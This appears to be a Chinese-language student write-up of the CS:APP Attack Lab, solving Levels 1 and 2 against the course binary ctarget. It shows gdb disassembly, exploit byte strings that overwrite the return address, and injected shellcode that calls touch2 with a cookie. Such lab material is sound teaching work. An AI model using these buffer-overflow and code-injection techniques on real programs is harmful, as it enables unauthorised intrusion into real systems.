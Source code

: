 # Attack Lab

## 介绍

对2个有不同安全漏洞的程序进行5次攻击，完成后你将会收获：

- 学会针对缓冲区溢出漏洞进行攻击。
- 学会如何将程序写的更加安全，了解操作系统和编译的特征使程序出现更少的漏洞。
- 对x86-64机器代码的堆栈和参数传递有更深的理解。
- 对x86-64机器指令解码有更深的理解。
- 对gdb工具的熟练使用。

[实验帮助文档](http://csapp.cs.cmu.edu/3e/attacklab.pdf)

## Part I: Code Injection Attacks

前三个阶段利用**漏洞利用**字符串攻击`CTarget`。

### Level1

阶段1不需要代码注入，相反使用**漏洞利用**字符串就可以重定向程序执行另一现有程序。

`getbuf`函数在`CTarget`中被`test`函数被调用。

![](https://s3.ax1x.com/2021/01/02/rzfeat.png)

`getbuf`函数返回后会接着执行第5句代码，现在我们想改变这个行为。

![](https://s3.ax1x.com/2021/01/02/rzfaGT.png)

你的任务是改变程序执行方向，在`getbuf`函数返回后执行`touch1`函数。请注意，您的**漏洞利用**字符串可能还会破坏与该阶段不直接相关的堆栈部分，但这不会引起问题，因为`touch1`会导致程序直接退出。

思路是我们将`touch1`的起始地址的字节序列转为字符串后复写在返回地址在堆栈的位置。

首先我们使用反汇编查看一下`getbuf`和`touch1`函数。

```bash
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq
End of assembler dump.
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
End of assembler dump.
```

字符串的地址是`%rsp-0x28`，`getbuf`函数的返回地址是在`%rsp`。我们只需将`touch1`的地址`0x4017c0`写在返回地址即可。

构造字符串字节序列。

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 0x28的空间
c0 17 40 00 00 00 00 00 # touch1函数的地址 / retq的返回地址
```

注意字节排列需要还与机器的**大小端**有关。我这里使用的机器是小端模式（数据的高字节保存在内存的高地址中）。

我们再使用`hex2raw`工具将字节序列转为字符串。

```bash
./hex2raw < attack1.txt > attackraw1.txt
```

接着拿我们得到的字符串去做检测。

```bash
root@5139ac651595:/csapp/target1# ./ctarget -q -i attackraw1.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

### Level2

阶段2在漏洞利用字符串里注入一小段代码。

![](https://s3.ax1x.com/2021/01/02/rzb9i9.png)

你的任务是`getbuf`函数之后跳转到`touch2`函数而不是返回`test`函数。你需要将你的`cookie`传入到`touch2`函数。实验文件夹下有一个的`cookie.txt`，记录了你的`cookie`。

思路仍是在复写堆栈中返回地址字节序列。我们可以利用字符串空间注入代码，将返回地址执行字符串首地址执行注入代码从而跳转到`touch2`函数。

注入代码需要的内容：

1. 将cookie放入`%rdi`第一个参数寄存器中。
2. 将`touch2`函数地址推入堆栈中。
3. 然后执行`retq`，调用`touch2`函数。

于是我们可以得到代码汇编代码：

```assembly
movq $0x59b997fa,%rdi
pushq $0x4017ec
retq
```

将其转为目标代码：

```bash
gcc -c attack2.s

# 然后再反汇编
objdump -d attack2.o

attack2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
```

我们注入代码的字节序列便是`48 c7 c7 ... c3`。

```bash
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq
End of assembler dump.
(gdb) break *0x00000000004017af
Breakpoint 1 at 0x4017af: file buf.c, line 14.
(gdb) run -q
Starting program: /csapp/target1/ctarget -q
warning: Error disabling address space randomization: Operation not permitted
Cookie: 0x59b997fa

Breakpoint 1, 0x00000000004017af in getbuf () at buf.c:14
14	buf.c: No such file or directory.
(gdb) p /x $rsp
$1 = 0x5561dc78
```

我们得到字符串起始地址是`%rsp`的值0x5561dc78。便可以构造字节序列。

```bash
48 c7 c7 fa 97 b9 59 68 # 注入代码
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # 字符串起始地址
```

利用工具将字节序列转为字符串。 

```bash
root@5139ac651595:/csapp/target1# ./hex2raw < attack2.txt > attckraw2.txt
root@5139ac651595:/csapp/target1# ./ctarget -q -i attackraw2.txt
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

